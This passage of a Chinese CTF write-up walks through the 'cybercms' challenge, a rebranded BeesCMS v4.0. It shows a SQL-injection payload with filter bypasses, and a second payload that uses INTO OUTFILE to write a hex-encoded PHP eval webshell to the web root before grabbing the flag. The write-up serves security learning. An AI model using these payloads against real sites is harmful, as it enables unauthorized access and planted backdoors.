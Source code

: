 需要注意的是 最终我们要穿越到的目录是网站根目录的上层，即webapps目录下 与ROOT目录同级，当war包位于这个目录下才会自动部署

![image-20210801013622428](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210801013622428.png)

直接`cat /flag`就好啦

## cybercms

> 赛博CMS，只为安全而生
>
> Hint：信息搜集是一个web手必备的技能

一个（伪）cms平台介绍的页面，比较简陋，首页/应用案例处显示hacked by ymnh，在ymnh的咨询页面处有这样的报错

![image-20210801031306740](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210801031306740.png)

在首页/新闻动态处，几乎所有的帖子都是hacked by xxx~~（本来我还以为是多么复杂的长篇大论）~~，在如何安装和使用模板这篇下有没删干净的东西

![image-20210801031809386](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210801031809386.png)

如何设置进站语言这篇里竟然是这样的![image-20210801032406665](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210801032406665.png)

草 真是蚌埠住了 图穷匕见了属于是2333333

根据这些，可以得知整个站是完全移植/套壳beescms的 所以接着去找已存在的洞，参考：[Beescms_v4.0 sql注入漏洞分析](https://www.cnblogs.com/yuzly/p/11423384.html)

在admin后加单引号，提示![image-20210801113627407](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210801113627407.png)

表名是bees_admin，有id, admin_name, admin_password, admin_purview, is_disable共5个字段

简单fuzz可知：过滤了空格（用`/**/`绕过）（或者用`tab`绕过 或者`%0a`绕过 都可以），过滤了select, outfile（双写绕过），对尖括号转义为html实体（用hex绕过）

```
user=admin'/**/union/**/selselectect/**/1,2,3,4,5#
```

![image-20210801121138555](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210801121138555.png)

回显正常，接着尝试写入shell（这里要写清楚绝对路径，在上面的一张报错的页面也有所提示了）

```
admin'/**/union/**/selselectect/**/1,2,3,4,0x3c3f3d6576616c28245f504f53545b2777756875275d293b3f3e/**/into/**/ououtfiletfile/**/'/var/www/html/wuhu.php'#
```

![image-20210801121645243](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210801121645243.png)

好耶，连蚁剑拿flag咯

![image-20210801121853464](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210801121853464.png)

## ez_website
